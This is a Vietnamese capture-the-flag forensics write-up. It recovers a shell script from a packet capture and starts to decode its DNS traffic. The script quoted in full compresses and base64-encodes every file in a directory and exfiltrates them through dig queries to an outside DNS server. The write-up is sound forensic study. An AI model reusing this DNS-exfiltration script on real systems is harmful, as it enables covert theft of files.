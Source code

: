 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```i-```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.


